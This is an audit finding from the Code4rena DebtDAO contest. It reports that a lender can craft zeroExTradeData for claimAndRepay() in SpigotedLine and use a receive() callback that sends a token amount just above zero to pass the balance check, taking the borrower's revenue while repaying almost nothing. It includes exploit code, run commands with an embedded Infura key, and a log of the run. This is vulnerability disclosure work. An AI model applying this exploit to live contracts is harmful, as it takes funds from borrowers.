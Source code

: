 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- satisfactory
- sponsor confirmed
- selected for report
- edited-by-warden
- M-04

# [Lender can trade claimToken in a malicious way to steal the borrower's money via claimAndRepay() in SpigotedLine by using malicious zeroExTradeData](https://github.com/code-423n4/2022-11-debtdao-findings/issues/110) 

# Lines of code

https://github.com/debtdao/Line-of-Credit/blob/audit/code4rena-2022-11-03/contracts/modules/credit/SpigotedLine.sol#L106-L112
https://github.com/debtdao/Line-of-Credit/blob/audit/code4rena-2022-11-03/contracts/utils/SpigotedLineLib.sol#L75-L85


# Vulnerability details

## Impact

Lender can trade claimToken in a malicious way to steal the borrower's money via claimAndRepay() in SpigotedLine by using malicious zeroExTradeData.

In the design of the protocol, the lender can use the function claimAndRepay(), the lender can take claimToken by spigot.claimEscrow and then trade the claimToken to the CreditTOken via ZeroEx exchange, then repay the credit. 

```
function claimAndRepay(address claimToken, bytes calldata zeroExTradeData) external
        whileBorrowing
        nonReentrant
        returns (uint256) { 

...
// Line 106 - Line 112
uint256 newTokens = claimToken == credit.token ?
          spigot.claimEscrow(claimToken) :  // same asset. dont trade
          _claimAndTrade(                   // trade revenue token for debt obligation
              claimToken,
              credit.token,
              zeroExTradeData
          );
...
// Line 128 - Line 130 
 credits[id] = _repay(credit, id, repaid);

        emit RevenuePayment(claimToken, repaid);

...

}

```

```
function _claimAndTrade(
      address claimToken,
      address targetToken,
      bytes calldata zeroExTradeData
    )
        internal
        returns (uint256)
    {
        (uint256 tokensBought, uint256 totalUnused) = SpigotedLineLib.claimAndTrade(
            claimToken,
            targetToken,
            swapTarget,
            address(spigot),
            unusedTokens[claimToken],
            zeroExTradeData
        );

        // we dont use revenue after this so can store now
        unusedTokens[claimToken] = totalUnused;
        return tokensBought;
    }
```
```
function claimAndTrade(
        address claimToken,
        address targetToken,
        address payable swapTarget,
        address spigot,
        uint256 unused,
        bytes calldata zeroExTradeData
    )
    external 
        returns(uint256, uint256)

{
...
 trade(
            claimed + unused,
            claimToken,
            swapTarget,
            zeroExTradeData
        );
        
        // underflow revert ensures we have more tokens than we started with
        uint256 tokensBought = LineLib.getBalance(targetToken) - oldTargetTokens;

        if(tokensBought == 0) { revert TradeFailed(); } // ensure tokens bought
...


}

```

In the function to claimAndTrade in SpigotedLineLib.sol, the check in line 85 to check if tokenBought is not equal to 0 then revert. 

The bug here is the zeroExTradeData is controlled by the lender and can be malicious and can manipulate the flow to bypass the check in line 85.

## Proof of Concept

The following code can manipulate and bypass the check to steal money of the borrower.
Step 1: Construct the zeroExTradeData data to sell the claimToken to ETH via the ZeroEx exchange data. The lender constructs the zeroExTradeData to send ETH to the exploit contract. 
Step 2: In the exploit contract, have the receive() function to receive ETH from ZeroEx exchange. Since the exchange was from claimToken to ETH, so the exploit contract will receive the ETH and the code in receive function will be hit. 

```
receive() external payable {
    console.log("Callback hit: Send the SpigottedLine Contract some CreditToken to bypass the check of Balance");
    uint256 amount = 100; 
    creditToken.transfer(address(line),amount);
    console.log("Receive the amount of ETH: %s", msg.value);
  }

```
In the receive() function, the exploit contract transfer some amount of creditToken to the SpigotedLine contract to bypass the check 
```
 if(tokensBought == 0) { revert TradeFailed(); } // ensure tokens bought
```
Since this check requires only not 0, so the lender can send only 1 or very small amount, e.g. 100 of creditToken. 

This amount then will be used to repay the credit. 
So this means, the borrower lost money, because the lender can claim big amount of claimToken and repay a little for the credit.

In the zip file in the Google_Drive link, there is the POC written for this bug. 
The test case is test_lender_can_claim_and_repay_3 in file SpigotedLine.t.modified.sol 
You can put this file to the tests folder
https://drive.google.com/file/d/1IWAV8Zz5KVgw22-gnVZrOxkcYrgv8cO2/view?usp=sharing

You can run the POC by calling: 
```
forge test -m test_lender_can_claim_and_repay_3 -vvvvv --fork-url 'https://mainnet.infura.io/v3/61b30ad3285446cf86bed0c053d864af' --fork-block-n
umber 15918000
```
Here I use the block-number to make the test log stable, but this does not impact the logic of POC. 

You can find the detailed log file: Line-of-Credit\test_claim_221107_2311.log
The full log file here: https://drive.google.com/file/d/1LTY2-z8gOIOen0Ut9CbX1KpwvDvNVQdx/view?usp=sharing 
In this log file, the lender claims 1000 DAI (DAI is revenueToken) then sell to receive 0.6324 ETH, but repays only 100 * ( 10 ** -18 ) BUSD for the borrower. 

Logs:
  Step 0: As a Borrower borrow some money 
  Step 1: Construct the tradeData to call claimAndRepay as the lender
  claimed: 1000000000000000000000
  unused: 0
  sellAmount: 1000000000000000000000
  Step 1: As the lender, call claimAndRepay with Malicious zeroExTradeData
  Callback hit: Send the SpigottedLine Contract some CreditToken to bypass the check of Balance
  Receive the amount of ETH: 632428006785336734
  emit RepayInterest(id: 0xa874d902851500473943ebb58b0c06aca6125454fa55abe5637379305db10141, amount: 0)
  emit RepayPrincipal(id: 0xa874d902851500473943ebb58b0c06aca6125454fa55abe5637379305db10141, amount: 100)
  RevenuePayment(token: DAI: [0x6b175474e89094c44da98b954eedeac495271d0f], amount: 100)

You can use the POC.patch here: https://drive.google.com/file/d/17Ycdi5czBoFOKNQlgVqWxVdHxfw04304/view?usp=sharing 
To use it use command 
```
git apply POC.patch

```

To run use command 
```
forge install
forge test -m test_lender_can_claim_and_repay_3 -vvvvv --fork-url 'https://mainnet.infura.io/v3/61b30ad3285446cf86bed0c053d864af' --fork-block-n
umber 15918000

```

The full code repository: https://drive.google.com/file/d/1LTY2-z8gOIOen0Ut9CbX1KpwvDvNVQdx/view?usp=sharing 

## Tools Used
Foundry

## Recommended Mitigation Steps

This is a difficult bug to fix if the protocol still allows the lender to use this functionality. Probably should limit this functionality for the borrower to use. Because the borrower will not benefit from stealing his own money.